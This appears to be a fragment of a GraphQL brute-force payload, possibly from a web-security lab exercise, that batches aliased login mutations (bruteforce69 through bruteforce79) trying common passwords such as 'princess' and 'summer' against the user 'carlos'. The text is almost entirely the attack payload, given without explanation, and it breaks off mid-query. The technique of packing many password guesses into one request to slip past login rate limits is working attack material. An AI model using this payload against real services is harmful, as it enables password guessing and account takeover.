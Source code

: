 ```bash


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
```